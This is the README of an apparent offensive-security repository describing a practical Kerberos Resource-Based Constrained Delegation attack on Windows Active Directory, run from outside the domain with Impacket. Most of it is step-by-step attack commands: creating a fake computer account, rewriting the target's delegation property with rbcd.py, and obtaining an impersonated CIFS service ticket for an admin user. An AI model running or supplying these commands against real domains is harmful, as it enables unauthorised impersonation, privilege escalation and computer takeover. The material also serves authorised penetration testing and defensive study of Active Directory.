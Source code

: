 # Abusing Kerberos Resource-Based Constrained Delegation

## TL;DR

This repo is about a practical attack against Kerberos Resource-Based
Constrained Delegation in a Windows Active Directory Domain.

> The difference from other common implementations is that we are
> launching the attack **from outside of the Windows Domain**, not from
> a domain joined (usually Windows) computer.

The attack is implemented **using only Python3
[Impacket](https://www.secureauth.com/labs/open-source-tools/impacket)**
(and its dependencies). Tested on [Arch](https://www.archlinux.org/)
with up-to-date Impacket (0.9.21 as of writing).

![Attack Log](./rbcd-attack.png)

## The Attack

In summary, without any deep details, the attack targets 
a domain computer, exactly service principals related to the
target domain computer.

What we need here as prerequisites:

* a domain account with write access to the target computer (exactly write access to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer domain object)
* permission to create new computer accounts (this is usually default, see `MachineAccountQuota`)
* LDAP (389/tcp) and SAMR (445/tcp) (or LDAPS (636/tcp)) access to the DC.
* Kerberos (88/tcp) access to the DC

The attack path in very high level:

1. Create a fake computer
2. Abuse `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target
3. Request impersonated Service Tickets (S4U) for the target computer

Benefit:

* Impersonated Service Tickets may allow high-level access to services on
the target like CIFS, HTTP, etc, if the impersonated account has privileges.
Sometimes takeover of the computer.

## Common toolsets

The common toolsets for this attack operate on a domain-joined
Windows Computer using:

* [Powermad](https://github.com/Kevin-Robertson/Powermad) for adding new computer accounts
* [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) dev branch for `abusing msDS-AllowedToActOnBehalfOfOtherIdentity`
* [Rubeus](https://github.com/GhostPack/Rubeus) for S4U ticket operations

## Impacket implementation

This implementation uses pure [Impacket](https://github.com/SecureAuthCorp/impacket) from outside the Domain.

### Creating the fake computer

Using addcomputer.py example from Impacket let's create a fake computer (called `evilcomputer`):

```
addcomputer.py -computer-name 'evilcomputer$' -computer-pass ev1lP@sS -dc-ip 192.168.33.203 ecorp.local/test:ohW9Lie0
```

### Modifying delegation rights

Implemented the script [rbcd.py](./rbcd.py) found here in the repo which
adds the related security descriptor of the newly created EVILCOMPUTER to the
`msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer.

```
./rbcd.py -f EVILCOMPUTER -t WEB -dc-ip 192.168.33.203 ecorp\\test:ohW9Lie0
```

The script uses heavily the Python classes in the `ntlmrelayx.py` Impacket example.
For help and an example call the script without options.

### Getting the impersonated service ticket

Now everything is ready for abusing the Constrained Delegation by an
S4U2Self query and get an impersonated Service Ticket for the
target computer. With `getST.py` Impacket example script:

```
getST.py -spn cifs/WEB.ecorp.local -impersonate admin -dc-ip 192.168.33.203 ecorp.local/EVILCOMPUTER$:ev1lP@sS
```

The above command fetches a CIFS Service Ticket on behalf of the targetted domain user `admin`
and stores it in the file `admin.ccache`.

After adding the file path to the KRB5CCNAME variable the ticket is usable for
Kerberos clients.

```
export KRB5CCNAME=`pwd`/admin.ccache
klist
```

## References

For details about abusing Resource-Based Constrained Delegation:

* https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
* https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/
* http://www.harmj0y.net/blog/activedirectory/s4u2pwnage/

And one of the most comprehensive presentations about Kerberos Attacks:

* [Constructing Kerberos Attacks with Delegation Primitives slides](https://shenaniganslabs.io/media/Constructing%20Kerberos%20Attacks%20with%20Delegation%20Primitives.pdf) at Defcon by [Elad Shamir](https://twitter.com/elad_shamir) and [Matt Bush](https://twitter.com/3xocyte)
